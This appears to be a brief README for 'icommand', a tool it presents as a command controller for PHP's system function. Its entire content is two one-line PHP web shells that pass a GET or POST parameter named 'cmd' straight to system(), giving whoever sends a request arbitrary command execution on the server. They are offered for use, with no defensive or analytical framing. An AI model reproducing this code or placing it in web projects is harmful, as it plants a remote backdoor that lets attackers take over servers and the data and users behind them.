 ### icommand - command controller for PHP system function
- - -   
<p>icommand works for **POST** and **GET** requests:  
        `<?php system($_GET['cmd']); ?>`
        `<?php system($_POST['cmd']); ?>`
